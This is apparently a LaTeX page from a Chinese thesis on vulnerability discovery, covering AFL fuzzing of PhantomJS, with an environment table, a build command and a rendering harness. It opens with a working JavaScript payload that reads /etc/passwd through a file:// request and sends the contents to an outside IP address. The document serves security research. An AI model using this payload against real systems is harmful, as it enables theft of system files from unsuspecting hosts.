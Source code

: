 \documentclass[doctor,privacy,twoside]{buaa_mac}
\begin{document}
\lstset{language=JavaScript}
\begin{lstlisting}
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
	    window.location.href="http://7.9.5.4/index.php?msg=" + xhr.responseText;
    }
}
xhr.open('GET', 'file:///etc/passwd', true);
xhr.send(null);
\end{lstlisting}



\section{漏洞挖掘与分析}

\subsection{漏洞挖掘AFL示例}
如下表\ref{tab:afl-env}所示，是AFL工具使用的漏洞挖掘环境。

\begin{table}[h]
  \caption{AFL漏洞挖掘环境概况}
  \label{tab:afl-env}
  \centering
\begin{tabular}{|p{3cm}<{\centering}|p{3cm}<{\centering}|p{3cm}<{\centering}|p{1cm}<{\centering}|p{3cm}<{\centering}|}
    \hline
   \textbf{操作系统版本} & \textbf{内核版本} & \textbf{处理器} & \textbf{内存} &  \textbf{AFL版本}   \\
    \hline
ubuntu 16.04 x64 &  4.4.0-151-generic & 4 cores Intel(R) Xeon(R) Platinum 8269CY CPU @ 2.50GHz & 8G   & pythia (afl 2.5.1b) \\
\hline
    \end{tabular}
\end{table}



首先使用AFL提供的afl-gcc以及afl-g++来编译PhantomJS，二次编译的目的是为了在程序中插桩，通过插桩来获取程序运行时的执行路径，以此来计算fuzz的覆盖率指标。

\lstset{language=JavaScript}
\begin{lstlisting}
CC=/usr/local/bin/afl-gcc CXX=/usr/local/bin/afl-g++  CXXFLAGS="-Winvalid-pch" python build.py
\end{lstlisting}

为了使得PhantomJS能够加载和渲染相应的网页，我们需要编写额外的javascript的程序进行引导。该程序只需要实现访问网页并渲染的基本功能即可：

\lstset{language=JavaScript}
\begin{lstlisting}
"use strict";
var page = require('webpage').create(),address, output,system = require('system'),
output = "/var/www/html/out.png";
page.content = '<html><h1>hello world!</h1></html>';
page.content = system.stdin.readLine();
window.setTimeout(function () {
            page.render(output);
            phantom.exit();
        }, 200);
\end{lstlisting}
\end{document}
